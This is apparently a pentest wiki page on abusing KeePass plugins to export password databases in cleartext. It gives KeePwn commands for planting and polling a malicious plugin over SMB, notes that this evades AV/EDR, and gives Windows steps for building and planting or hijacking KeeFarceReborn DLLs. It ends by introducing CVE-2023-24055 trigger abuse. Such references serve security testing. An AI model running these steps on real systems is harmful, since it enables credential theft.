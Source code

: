 KeePass features a [plugin framework](https://keepass.info/help/v2/plugins.html) which can be abused to load malicious DLLs into KeePass process, allowing attackers **with administrator rights** to easily export the database (see: [KeeFarceRebornPlugin](https://github.com/d3lb3/KeeFarceReborn#make-keepass-inject-keefarce-reborn-as-a-plugin)).

{% tabs %}
{% tab title="UNIX-Like" %}
[KeePwn ](https://github.com/Orange-Cyberdefense/KeePwn)(Python) can be used to abuse this KeePass Plugin feature, exporting the database in cleartext.

{% hint style="info" %}
These actions are made through SMB C$ share access, limiting AV/EDR detection as no command execution is performed.
{% endhint %}

```bash
# List currently installed plugins and enumerate the plugin cache
python3 KeePwn.py plugin check -u <ADMIN_ACCOUNT> -p <PASSWORD> -d <DOMAIN> -t <TARGET>     

# Add and remove your malicious plugins which performs a cleartext export of the database in %APPDATA% on next KeePass launch
python3 KeePwn.py plugin add -u <ADMIN_ACCOUNT> -p <PASSWORD> -d <DOMAIN> -t <TARGET>     

# Poll %APPDATA% for exports and automatically moves it from remote host to local filesystem
python3 KeePwn.py plugin poll -u <ADMIN_ACCOUNT> -p <PASSWORD> -d <DOMAIN> -t <TARGET>     
```
{% endtab %}

{% tab title="Windows" %}
By compiling the [KeeFarceRebornPlugin](https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin) project, and copying the DLL into the plugins directory (located at at KeePass root, namely _"C:\Program Files\KeePass Password Safe 2\Plugins"_ for a global install), we can abuse KeePass Plugin.

Export the database using malicious plugin:

```bash
KeePass.exe --plgx-create C:\KeeFarceReborn\KeeFarceRebornPlugin
copy C:\KeeFarceReborn\KeeFarceRebornPlugin.plgx "C:\Program Files\KeePass Password Safe 2\Plugins"
```

Export the database by hijacking a legit plugin DLL (requires an existent plugin in use):

```powershell
copy "C:\Program Files\KeePass Password Safe 2\KeePass.exe" .
devenv /build Release KeeFarceRebornPlugin.sln
copy C:\KeeFarceReborn\KeeFarceRebornPlugin\bin\Release\KeeFarceRebornPlugin.dll C:\Users\snovvcrash\AppData\Local\KeePass\PluginCache\3o7A46QKgc2z6Yz1JH88\LegitPlugin.dll
```
{% endtab %}
{% endtabs %}

### KeePass Trigger Abuse - CVE-2023-24055&#x20;

We can modify the `KeePass.config.xml` file to create malicious triggers that automatically exported database entries to accessible locations.
